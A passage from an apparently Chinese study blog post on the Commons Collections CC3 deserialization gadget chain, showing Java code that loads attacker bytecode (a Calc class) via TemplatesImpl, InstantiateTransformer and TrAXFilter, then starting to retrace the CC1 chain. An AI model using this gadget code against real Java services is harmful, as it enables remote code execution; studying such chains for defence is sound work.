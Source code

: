 ```java
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Calc");
        setFieldValue(templates, "_bytecodes", new byte[][] {code});
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
//上面这一部分就是Templatelmpl动态加载字节码的代码
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);

    }
     public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
     }
}

```

# CC1+CC3

接下来就是要怎么调用`transform()`方法，那就回到了`CC1`链

CC1链是第一个学习的，可能当时还有点蒙，现在到CC3了可以字节一步一步再推回去，自己再写一遍，顺便也可以再次学习一下`CC1`链

## 调用链

![image-20250927201330228](./Commons-Collections%E7%AF%8704-CC3%E9%93%BE/image-20250927201330228.png)

## 逐步向前推进

### TransformedMap.checkSetValue()调用transform()
